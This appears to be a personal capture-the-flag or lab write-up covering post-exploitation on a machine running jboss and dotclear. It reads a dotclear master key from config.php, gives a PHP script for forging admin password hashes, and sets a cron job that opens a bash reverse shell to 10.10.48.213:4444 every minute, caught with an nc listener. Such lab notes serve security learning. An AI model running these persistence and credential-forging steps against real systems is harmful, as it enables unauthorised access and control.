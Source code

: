 Maybe there was some sort of connection running from root with jboss that closed up when I killed the jboss process launched by `jacob`.

Might need to restart the box to try to further exploit this.

Let's go back to `dotclear`.

Looking at the config file in `/var/www/html/dotclear/inc/config.php` we find
```
// Crypt key (password storage)
define('DC_MASTER_KEY','2d91d4e6c0fa15d865bb029f6c8b46ef');

// Cryptographic algorithm
define('DC_CRYPT_ALGO', 'sha512');
```

Reading on dotclear, I found how to generate new hashes (https://www.octopuce.fr/modifier-le-mot-de-passe-dun-compte-dotclear-temporairement/).

We can use this php script
```php
<?php

include("/var/www/html/dotclear/inc/libs/clearbricks/common/lib.crypt.php");
include("/var/www/html/dotclear/inc/config.php");
echo crypt::hmac('2d91d4e6c0fa15d865bb029f6c8b46ef','yolo')."\n";

?>

// Which output fe50a54cd07e7ae19c1bde7b57d2a2935892b64b
```

We can then change the password in the db and login as admin.

But that doesn't give us jacob password...

It might give us access to installing new themes tho, and we saw an option to enable php in themes in the database.
This might give us access to the `apache` user, but what then ? Maybe linpeas runned as `apache` will give us some more stuff ?

Hmmm, the generated hash doesn't seem to work... Not in the same format as the one that was there before. Look like there is some salt with the hash ?

Hmmmm...

As a side note, I couln't launch new shell to the machine using the same exploit. For some reason it didn't work when I already had a connection openned (Didn't try closing the reverse shell and retrying, maybe it's a one time thing.. didn't want to restart the whole machine).
Tried to add an authorized ssh key butit wsn't allowed.
Coulnd't add a php reverse shell inside the /var/www/html
So i opted for a cron job that try to connect to me every minute
```
* * * * * /bin/bash -i >& /dev/tcp/10.10.48.213/4444 0>&1
```

Using `nc -lvp 4444` (no `-n`) we can reuse the same port for multiple shells.